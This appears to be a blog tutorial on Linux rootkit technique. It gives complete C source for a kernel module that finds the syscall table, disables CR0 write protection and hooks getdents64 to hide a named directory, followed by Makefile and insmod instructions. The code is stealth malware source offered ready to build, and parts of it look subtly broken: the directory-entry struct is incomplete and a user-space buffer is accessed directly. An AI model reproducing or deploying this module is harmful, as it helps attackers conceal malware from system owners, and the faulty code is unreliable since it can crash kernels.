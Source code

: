 ```yaml
---
title: "Hooking `getdents64` to Hide Directories in Linux"
tags: ['System Security', 'Low level', 'Rootkits', 'Malware']
date: 2024-06-05
toc: true
---
```


# Hooking `getdents64` to Hide Directories in Linux

Syscall hooking is a technique used in operating system development to intercept system calls made by user-space applications. This allows developers to modify or monitor the behavior of those calls without altering the application code. One common use case is hiding files or directories, which can be useful for security applications or debugging.

## Use Cases

| Use Case                     | Description                                          |
|------------------------------|------------------------------------------------------|
| **Security Monitoring**      | Intercept system calls to monitor suspicious activity. |
| **Debugging**                | Track file access patterns for debugging purposes.   |
| **Malicious Intent**         | Hide files or directories to conceal malware.       |

## Kernel Module to Hook `getdents64`

This kernel module hooks the `getdents64` syscall to hide specified directories from directory listings. Below is the implementation.

```
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/fs.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>
#include <linux/sched.h>
#include <linux/syscalls.h>
#include <asm/unistd.h>

#define HIDDEN_DIR "hidden_dir"  // Specify the directory to hide

static unsigned long **sys_call_table;
static asmlinkage long (*original_getdents64)(unsigned int fd, struct linux_dirent64 *dirent, unsigned int count);

struct linux_dirent64 {
    unsigned long d_ino;        /* Inode number */
    unsigned long d_off;        /* Offset to the next dirent */
    unsigned short d_reclen;    /* Length of this record */
    char d_name[];              /* Filename (null-terminated) */
};

static asmlinkage long hooked_getdents64(unsigned int fd, struct linux_dirent64 *dirent, unsigned int count) {
    long ret = original_getdents64(fd, dirent, count);
    struct linux_dirent64 *d;
    unsigned long offset = 0;
    unsigned long bpos = 0;

    while (bpos < ret) {
        d = (struct linux_dirent64 *)((char *)dirent + bpos);
        if (strcmp(d->d_name, HIDDEN_DIR) == 0) {
            // Adjust return value and offset
            ret -= d->d_reclen;
            memmove(d, (char *)d + d->d_reclen, ret - bpos);
        } else {
            bpos += d->d_reclen;
        }
    }

    return ret;
}

static unsigned long **find_sys_call_table(void) {
    unsigned long offset;
    unsigned long **sct;

    // This function can change between kernel versions
    for (offset = PAGE_OFFSET; offset < ULLONG_MAX; offset += sizeof(void *)) {
        sct = (unsigned long **)offset;
        if (sct[__NR_close] == (unsigned long *) sys_close) {
            return sct;
        }
    }
    return NULL;
}

static int __init hook_init(void) {
    // Find the syscall table
    sys_call_table = find_sys_call_table();
    if (!sys_call_table) {
        return -1;
    }

    // Disable write protection
    write_cr0(read_cr0() & ~0x10000);

    // Hook the syscall
    original_getdents64 = (void *)sys_call_table[__NR_getdents64];
    sys_call_table[__NR_getdents64] = (unsigned long *)hooked_getdents64;

    // Restore write protection
    write_cr0(read_cr0() | 0x10000);

    return 0;
}

static void __exit hook_exit(void) {
    // Disable write protection
    write_cr0(read_cr0() & ~0x10000);

    // Restore original syscall
    sys_call_table[__NR_getdents64] = (unsigned long *)original_getdents64;

    // Restore write protection
    write_cr0(read_cr0() | 0x10000);
}

module_init(hook_init);
module_exit(hook_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("0x0060");
MODULE_DESCRIPTION("A kernel module to hook getdents64 to hide directories");
```

## Explanation of Key Components

| Component                  | Description                                                                 |
|----------------------------|-----------------------------------------------------------------------------|
| **sys_call_table**         | Pointer to the syscall table where system calls are located.                |
| **original_getdents64**    | Pointer to the original `getdents64` syscall implementation.                |
| **hooked_getdents64**      | Function that replaces `getdents64` to modify its behavior.                 |
| **find_sys_call_table()**  | Function that locates the syscall table in memory.                          |
| **hook_init()**            | Initializes the module and hooks the syscall.                               |
| **hook_exit()**            | Cleans up by restoring the original syscall and unloading the module.       |

## Compilation Instructions

1. **Save the code** to a file named `hide_dir.c`.

2. **Create a Makefile** in the same directory:

```
obj-m += hide_dir.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

3. **Compile the module**:

```
make
```

4. **Load the module**:

```
sudo insmod hide_dir.ko
```

5. **Check for errors**:

```
dmesg | tail
```

6. **Unload the module**:

```
sudo rmmod hide_dir
```

## Important Notes

- **Kernel Version Compatibility**: The syscall table and method to find it can vary between kernel versions. The provided method is a simplistic approach and may need adjustments.
- **Security and Stability**: Modifying the syscall table can lead to system crashes and security vulnerabilities. This code should only be run in a controlled environment.
- **Legal and Ethical Considerations**: Ensure you have permission to manipulate the system in this way, and use this knowledge responsibly.

Always test kernel modules in a safe environment, such as a virtual machine.
